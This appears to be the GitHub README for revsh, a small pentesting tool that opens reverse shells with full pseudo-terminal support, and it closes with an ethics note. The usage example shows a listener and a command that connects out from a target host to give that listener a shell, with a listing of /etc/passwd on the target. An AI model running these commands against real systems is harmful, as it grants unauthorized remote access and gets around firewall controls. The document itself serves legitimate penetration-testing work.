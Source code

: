 # revsh #

_revsh_ is a tool for establishing reverse shells with full [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A [reverse shell](http://www.sans.edu/student-files/presentations/LVReverseShell.pdf) is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features in a small (~20k) easy to use binary.

## Usage ##

	usage: revsh [-l] [-s SHELL] [-e ENV_ARGS] ADDRESS PORT

## Example ##

First, setup the listener on the local host:

	empty@monkey:~$ revsh -l 192.168.0.42 9999

Then connect out from the remote host:

	target@kitty:~$ ./revsh -s /bin/bash 192.168.0.42 9999
	
We will now find a shell waiting for us back at the listener:

	empty@monkey:~$ revsh -l 192.168.0.42 9999
	Listening...	Connected!
	Initializing...	Done!
	################################
	# hostname: kitty
	# ip address: 192.168.0.6
	# username: target
	################################
	target@kitty:/$ ls -l /etc/passwd 
	-rw-r--r-- 1 root root 1375 Jul  2 10:24 /etc/passwd

## Installation ##

	git clone git@github.com:emptymonkey/revsh.git
	cd revsh
	make

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

